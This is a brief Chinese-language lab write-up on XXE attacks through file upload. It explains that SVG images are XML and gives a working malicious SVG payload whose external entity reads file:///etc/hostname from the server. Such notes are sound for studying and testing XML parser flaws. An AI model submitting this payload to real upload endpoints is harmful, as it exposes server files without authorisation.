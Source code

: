 # 知识点
### XXE attacks via file upload
一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用 XML 或包含 XML 子组件。基于 XML 的格式的示例有 DOCX 等办公文档格式和 SVG 等图像格式。<br />例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收像 PNG 或 JPEG 这样的格式，正在使用的图像处理库也可能支持 SVG 图像。由于 SVG 格式使用 XML，攻击者可以提交恶意 SVG 图像，从而达到 XXE 漏洞的隐藏攻击面。

# 思路
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
通过上传svg图片获取file:///etc/hostname
